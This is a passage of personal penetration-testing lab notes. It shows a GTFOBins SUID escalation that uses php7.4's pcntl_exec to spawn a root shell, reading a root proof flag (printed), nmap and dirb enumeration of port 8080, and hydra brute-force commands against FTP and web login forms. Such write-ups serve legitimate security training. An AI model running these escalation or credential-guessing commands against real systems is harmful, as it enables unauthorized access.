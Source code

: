 I see `/usr/bin/php7.4` which may work

For SUID programs, check gtfo bins for SUID escalations
https://gtfobins.github.io

![[Pasted image 20231106204223.png]]

So basically try to spawn a root shell via php
```
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```

Worked
![[Pasted image 20231106204452.png]]
###### Actions On Objectives

Confirm flag hashes were found. root flag is in /root/proof.txt

```sh
cat /root/proof.txt
```

proof.txt `69db791b08252d0b3b8235b9b9082797`

Submit hashes 

##### 8080
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```sh
dirb http://192.168.128.110:8080
```
![[Pasted image 20231106194402.png]]

### Weaponize
#### FTP Servers
Smash it with a hydra
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.x.x ftp
```
#### Web Servers
If web login form simultaneously run hydra
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.x.x http-post-form "/admin/login.php:username=^USER^&password=^PASS^:User name or password incorrect"
```
	Change the path of /admin/login.php to whatever you find in burp's request history. The error message in the final : delimited colums also needs to be changed as well to match what is found.
